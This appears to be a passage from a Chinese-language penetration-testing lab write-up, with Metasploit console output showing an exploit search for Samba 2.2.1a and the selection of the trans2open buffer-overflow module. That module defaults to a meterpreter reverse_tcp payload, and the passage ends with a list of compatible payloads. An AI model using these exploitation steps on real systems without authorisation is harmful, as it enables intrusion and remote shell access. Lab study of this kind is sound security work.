 
## exploit + payload

### 利用 Samba模块

Samba 版本为 Unix (Samba 2.2.1a)，使用版本信息搜索利用模块。

```
msf6 > search type:exploit samba 2.2.x

Matching Modules
================

   #  Name                                                         Disclosure Date  Rank     Check  Description
   -  ----                                                         ---------------  ----     -----  -----------
   0  exploit/multi/samba/nttrans                                  2003-04-07       average  No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   1  exploit/freebsd/samba/trans2open                             2003-04-07       great    No     Samba trans2open Overflow (*BSD x86)
   2  exploit/linux/samba/trans2open                               2003-04-07       great    No     Samba trans2open Overflow (Linux x86)
   3  exploit/osx/samba/trans2open                                 2003-04-07       great    No     Samba trans2open Overflow (Mac OS X PPC)
   4  exploit/solaris/samba/trans2open                             2003-04-07       great    No     Samba trans2open Overflow (Solaris SPARC)
   5    \_ target: Samba 2.2.x - Solaris 9 (sun4u) - Bruteforce    .                .        .      .
   6    \_ target: Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce  .                .        .      .


Interact with a module by name or index. For example info 6, use 6 or use exploit/solaris/samba/trans2open
After interacting with a module you can manually set a TARGET with set TARGET 'Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce'
```



选择模块

```
msf6 > use exploit/linux/samba/trans2open 
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 
```



查看当前模块支持的 payload

```
msf6 exploit(linux/samba/trans2open) > show payloads 

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   0   payload/generic/custom                            .                normal  No     Custom Payload
   1   payload/generic/debug_trap                        .                normal  No     Generic x86 Debug Trap
```